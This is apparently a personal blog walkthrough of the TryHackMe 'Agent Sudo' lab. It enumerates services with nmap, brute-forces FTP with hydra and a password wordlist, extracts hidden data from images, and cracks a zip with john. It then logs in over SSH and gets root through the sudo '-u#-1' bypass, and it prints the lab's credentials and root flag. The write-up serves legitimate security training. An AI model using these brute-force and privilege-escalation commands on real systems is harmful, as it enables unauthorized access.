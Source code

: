 ```yaml
---
title: <img width="50" height="50" src="https://external-content.duckduckgo.com/iu/?u=https%3A%2F%2Frepository-images.githubusercontent.com%2F518509014%2Ff7450454-158c-45e0-8b38-0c0ae4d7394c&f=1&nofb=1&ipt=439e1f842390f9cf76eb01516d4b0b2ca0cd73decbe1b7e312c147dea4b1e64b&ipo=images"> AgentSudo | Tryhackme | Walkthrough 
date: 2023-12-12 07:00:02 +730
categories: [Write Up, TryHackMe]
tags: [agent-sudo,walkthrough,tryhackme,privilege-escalation,hydra,100-days-of-cybersecurity] # TAG names should always be lowercase


---
```

<h1 style="color: cyan; text-align: center">100 Day's Of Cybersecurity - Day 5</h1>

{: .dark .w-75 .shadow .rounded-10 w='1212' h='668' }
# Agent Sudo | TryHackMe



## Nmap 

```
┌──(root㉿kali)-[/home/kali]
└─# nmap -sV -sC 10.10.69.110
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-14 01:02 EST
Nmap scan report for 10.10.69.110
Host is up (0.21s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Annoucement
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.57 seconds
```

So there are totally `3 ports are open` that is
`Ftp`
`ssh`
`http`

## HTTP - 80

there's two hint on the port number 80 
`user-agent`
`Agent R`

## Initial Foothold

 - Intercept the request 
 - send it to intruder
 - add user-agent field in sniper mode
 - in payload section keep `A` to `Z` 
 - start attack
 - look for changes in the response code

In the letter C you get this juicy information !   `http://10.10.97.21/agent_C_attention.php`  

```
Attention chris,
Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your g
od damn password, is weak!
From, Agent R
```

## FTP 

1️⃣ I tried FTP anonymous login but i failed
2️⃣ Bruteforcing
		 `hydra -l chris -P /usr/share/wordlist/rockyou.txt $IP ftp`


there were 3 files in total we download it by 
`mget *.*`

 - To_agentJ.txt
 - cutie.png
 - cute-alien.jpg


### 1️⃣ To_agentJ.txt

```
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

### 2️⃣ cutie.png

-   `binwalk -e cutie.png`
-   `unzip cutie.png`

	 #### Zip file password

-   `ssh2john 8702.zip > 8702.hash`
-   `john 8702.hash --wordlist=/usr/share/seclists/Passwords/rockyou.txt`

### 3️⃣ cute-alien.png

-   `stegseek cute-alien.jpg /usr/share/seclists/passwords/rockyou.txt`

```
cat cute-alien.jpg.out 
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```
So we have james and hackerrules! as a password 

## SSH 

`ssh james@targetip`



## Privilege Escalation

```
james@agent-sudo:~$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# cat /root/root.txt 
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
root@agent-sudo:~# 
```

![](https://media.giphy.com/media/DAtJCG1t3im1G/giphy.gif)